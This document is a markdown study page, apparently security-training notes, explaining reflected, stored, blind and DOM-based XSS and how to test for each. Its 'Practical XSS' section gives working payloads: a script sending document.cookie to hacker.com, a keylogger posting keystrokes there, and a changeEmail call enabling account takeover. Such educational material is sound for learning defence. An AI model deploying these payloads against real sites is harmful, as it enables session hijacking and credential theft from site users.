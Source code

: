 # XSS

Web applications can be vulnerable to **XSS (Cross-Site Scripting)** and defacement attacks if user inputs are not properly sanitized. XSS allows attackers to inject scripts, like JavaScript, that execute in victims' browsers, causing potential harm. Defacement alters the visual appearance of a website without executing code. Protect against these vulnerabilities by ensuring inputs are filtered and sanitized.

Executing arbitrary code on a victim's browser allows attackers to steal cookies, log keystrokes, or alter site appearance for phishing.

**Types of XSS Attacks**

1. **Stored XSS**: User input is saved on the website, like in user profiles or chats. Hackers can inject harmful code that affects anyone who visits the page. This is very dangerous as it affects many users without needing phishing.
2. **Reflected XSS**: User input is not stored but reflected back in web responses, often seen in search forms or URLs. Attackers trick users into clicking on malicious links, often requiring phishing.
3. **DOM-Based XSS**: Unlike stored and reflected, this affects the client side, using JavaScript to exploit vulnerabilities when dynamically rendering a page. It temporarily reflects user input, similar to reflected XSS.

## XSS Types

### Reflected

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

#### Testing for Refrected XSS:

You'll need to test **every possible point** of entry; these include:

* **Parameters** in the URL Query String
* URL File **Path**
* Sometimes **HTTP Headers** (although unlikely exploitable in practice)



### Stored

The XSS payload is saved on the web application, like in a database, and gets executed when other users visit the site or page.

<details>

<summary>Example Scenario</summary>

A blog site lets users post comments, but it doesn't check for harmful JavaScript. If you post a comment with JavaScript, it's stored in the database, and any user visiting the article will have that JavaScript run on their browser. This is risky because the JavaScript could redirect users to another site, steal session cookies, or perform actions on the site pretending to be the user.\
\
Developers often rely on client-side restrictions to protect input values. However, changing values to unexpected ones can reveal vulnerabilities, like stored XSS. For instance, if an age field expects an integer from a dropdown, you can manually send a request to test with malicious inputs.

</details>

#### Testing for Stored XSS:

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

* Comments on a blog
* User profile information
* Website Listings



### Blind XSS

**Blind XSS** works like stored XSS because your script is saved on the site for others to see. However, you can't view or test it yourself before it affects another user.

<details>

<summary>Example Scenario</summary>

A website has a contact form to message staff. The form doesn't check for harmful code, allowing attackers to enter anything. These messages turn into support tickets for staff in a private portal.\
\
An attacker can use JavaScript to send information back to their website. This could reveal the staff portal's URL, the staff member's cookies, and the contents of the portal page. With this information, the attacker could hijack the staff member's session and access the private portal.

</details>

#### Testing for Blind XSS

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.



### DOM Based

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

<details>

<summary>Example Scenario</summary>

The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

</details>

#### Testing for DOM Based XSS:

DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**`window.location.x`**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as `eval()`.



## Practical XSS

### Session Stealing

To steal a user's session, a hacker can use JavaScript to grab the user's cookies, encode them in base64 for safe transfer, and send them to a controlled website. With these cookies, the hacker can impersonate the user and access their session.

```javascript
<script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger

The code below is a key logger. It sends everything you type on a website to a hacker's site. This is dangerous if the site collects logins or payment information.

{% code overflow="wrap" %}
```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>
```
{% endcode %}

### Business Logic

Here's a more detailed example than before. This involves calling a network resource or a JavaScript function. For instance, to change a user's email, you might have a function like `user.changeEmail()`. Your payload might look like this:

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Now that the email address for the account has changed, the attacker may perform a reset password attack.



## Bypassing Payloads

...

